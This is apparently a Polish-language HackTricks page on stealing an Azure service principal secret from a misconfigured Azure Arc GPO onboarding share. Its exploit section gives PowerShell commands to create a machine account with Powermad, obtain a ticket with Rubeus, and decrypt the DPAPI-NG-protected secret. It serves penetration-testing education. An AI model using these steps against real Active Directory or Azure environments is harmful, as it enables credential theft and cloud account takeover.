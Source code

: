 # Az - Arc podatny skrypt wdrażania GPO

{{#include ../../../banners/hacktricks-training.md}}

### Identyfikacja problemów

Azure Arc umożliwia integrację nowych serwerów wewnętrznych (serwery dołączone do domeny) z Azure Arc za pomocą metody Group Policy Object. Aby to ułatwić, Microsoft udostępnia zestaw narzędzi do wdrażania niezbędny do rozpoczęcia procedury onboardingu. W pliku ArcEnableServerGroupPolicy.zip znajdują się następujące skrypty: DeployGPO.ps1, EnableAzureArc.ps1 oraz AzureArcDeployment.psm1.

Po uruchomieniu skrypt DeployGPO.ps1 wykonuje następujące czynności:

1. Tworzy GPO Onboarding Serwerów Azure Arc w lokalnej domenie.
2. Kopiuje skrypt onboardingu EnableAzureArc.ps1 do wyznaczonego udziału sieciowego utworzonego na potrzeby procesu onboardingu, który zawiera również pakiet instalacyjny Windows.

Podczas uruchamiania tego skryptu, administratorzy systemów muszą podać dwa główne parametry: **ServicePrincipalId** oraz **ServicePrincipalClientSecret**. Dodatkowo wymagane są inne parametry, takie jak domena, FQDN serwera hostującego udział oraz nazwa udziału. Dalsze szczegóły, takie jak identyfikator najemcy, grupa zasobów i inne niezbędne informacje, muszą być również dostarczone do skryptu.

Szyfrowany sekret jest generowany w katalogu AzureArcDeploy na określonym udziale przy użyciu szyfrowania DPAPI-NG. Szyfrowany sekret jest przechowywany w pliku o nazwie encryptedServicePrincipalSecret. Dowody na to można znaleźć w skrypcie DeployGPO.ps1, gdzie szyfrowanie jest wykonywane przez wywołanie ProtectBase64 z $descriptor i $ServicePrincipalSecret jako wejściami. Deskryptor składa się z SID-ów grup Komputerów Domenowych i Kontrolerów Domeny, co zapewnia, że ServicePrincipalSecret może być odszyfrowany tylko przez grupy zabezpieczeń Kontrolerów Domeny i Komputerów Domenowych, jak zauważono w komentarzach skryptu.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Mamy następujące warunki:

1. Sukcesywnie przeniknęliśmy do wewnętrznej sieci.
2. Mamy możliwość utworzenia lub przejęcia kontroli nad kontem komputera w Active Directory.
3. Odkryliśmy udział sieciowy zawierający katalog AzureArcDeploy.

Istnieje kilka metod uzyskania konta maszyny w środowisku AD. Jedną z najczęstszych jest wykorzystanie kwoty konta maszyny. Inną metodą jest kompromitacja konta maszyny poprzez podatne ACL lub różne inne błędne konfiguracje.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Gdy konto maszyny zostanie uzyskane, możliwe jest uwierzytelnienie się za pomocą tego konta. Możemy użyć polecenia runas.exe z flagą netonly lub użyć pass-the-ticket z Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Mając TGT dla naszego konta komputerowego przechowywanego w pamięci, możemy użyć następującego skryptu do odszyfrowania sekretu głównego usługi.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatywnie, możemy użyć [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Na tym etapie możemy zebrać pozostałe informacje potrzebne do połączenia z Azure z pliku ArcInfo.json, który jest przechowywany w tym samym udostępnionym zasobie sieciowym co plik encryptedServicePrincipalSecret. Plik ten zawiera szczegóły takie jak: TenantId, servicePrincipalClientId, ResourceGroup i inne. Z tymi informacjami możemy użyć Azure CLI do uwierzytelnienia się jako skompromitowany service principal.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
